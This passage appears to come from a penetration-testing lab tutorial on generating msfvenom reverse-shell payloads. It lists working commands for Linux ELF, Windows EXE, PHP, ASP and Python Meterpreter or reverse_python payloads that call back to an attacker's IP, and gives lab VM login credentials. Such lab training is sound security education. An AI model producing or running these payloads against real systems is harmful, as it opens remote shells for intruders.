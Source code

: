 If the payload was set as Meterpreter (e.g. in a Windows executable format), multi/handler would then provide us with a Meterpreter shell.

`Other Payloads`

Based on the target system's configuration (operating system, install webserver, installed interpreter, etc.), msfvenom can be used to create payloads in almost all formats. Below are a few examples you will often use:

In all these examples, LHOST will be the IP address of your attacking machine, and LPORT will be the port on which your handler will listen.

Linux Executable and Linkable Format (elf)  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.

Windows  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`

PHP  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`

ASP  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`

Python  
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

All of the examples above are reverse payloads. This means you will need to have the exploit/multi/handler module listening on your attacking machine to work as a handler. You will need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same you have used when creating the msfvenom payload.

### Answer the questions

* Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.

	![task6-ssh](./images/task6-ssh.png)
